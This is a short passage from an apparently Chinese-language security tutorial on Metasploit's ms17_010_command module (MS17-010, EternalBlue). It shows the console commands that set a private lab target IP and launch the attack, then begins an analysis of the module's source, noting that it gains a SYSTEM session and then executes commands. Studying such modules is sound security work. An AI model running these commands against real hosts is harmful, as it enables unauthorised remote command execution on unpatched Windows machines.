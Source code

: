 ```bash
msf6 auxiliary(admin/smb/ms17_010_command) > set rhosts 192.168.1.9
```

攻击

```bash
msf6 auxiliary(admin/smb/ms17_010_command) > run
or
msf6 auxiliary(admin/smb/ms17_010_command) > exploit
```

[![](assets/1701606737-ab59243913101e2647416bff0d38d059.png)](https://xzfile.aliyuncs.com/media/upload/picture/20231106233404-eacb088e-7cb9-1.png)

### 模块分析

*   源码

在线，[https://github.com/rapid7/metasploit-framework/blob/master/modules/auxiliary/admin/smb/ms17\_010\_command.rb](https://github.com/rapid7/metasploit-framework/blob/master/modules/auxiliary/admin/smb/ms17_010_command.rb)

本地，/usr/share/metasploit-framework/modules/auxiliary/admin/smb/ms17\_010\_command.rb

*   run\_host 函数，攻击入口，首先调用 eternal\_pwn 函数获取 system 权限的会话，然后调用 smb\_pwn 函数进行命令执行

modules/auxiliary/admin/smb/ms17\_010\_command.rb

